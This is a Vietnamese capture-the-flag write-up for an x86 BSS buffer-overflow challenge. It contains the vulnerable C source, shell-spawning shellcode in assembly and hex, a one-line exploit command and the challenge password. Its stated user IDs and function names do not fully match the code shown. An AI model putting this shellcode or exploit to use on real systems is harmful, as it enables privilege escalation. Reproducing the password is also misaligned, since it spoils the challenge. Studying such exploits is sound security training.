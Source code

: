 # ELF x86 - BSS buffer overflow

```c
#include <stdio.h>
#include <stdlib.h>
 
char username[512] = {1};
void (*_atexit)(int) =  exit;
 
void cp_username(char *name, const char *arg)
{
  while((*(name++) = *(arg++)));
  *name = 0;
}
 
int main(int argc, char **argv)
{
  if(argc != 2)
    {
      printf("[-] Usage : %s <username>\n", argv[0]);
      exit(0);
    }
   
  cp_username(username, argv[1]);
  printf("[+] Running program with username : %s\n", username);
   
  _atexit(0);
  return 0;
}

```

Đây là một bài bss overflow, nhưng nó chả có ý nghĩa gì cả. Biến `_atexit` chứa địa chỉ một hàm và được gọi lúc sau tương tự với ta ghi đè return address. Ta dùng lỗi buffer overflow ở `cp_username` để ghi đè lên biến `_atexit` và nhảy về vùng shellcode của ta ghi ở mảng `username`.

Dùng gdb tìm địa chỉ của biến `username` và `_atexit`, `_atexit = username + 512`

![](images/2.png)

Viết shellcode gọi `setreuid(1210, 1110)` và `system(“/bin/sh”, 0, 0)`

```assembly
section .text
	global _start:

_start:
	xor edx, edx
	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	mov bx, 1207
	mov cx, 1107
	mov al, 0x46
	int 0x80	

	xor eax, eax
	xor ecx, ecx
	push eax
	push 0x68732f2f
	push 0x6e69622f
	push esp
	pop ebx
	mov al, 0xb
	int 0x80
```

Exploit:

```bash
./ch7 $(python2 -c "print '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x46\x66\xbb\xb7\x04\x66\xb9\xb7\x04\xcd\x80\x31\xc9\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\xb0\x0b\xcd\x80' + 'A' * (512 - 39) + '\x40\xa0\x04\x08'")
```

![](images/4.png)

pass là: `aod8r2f!q:;oe`
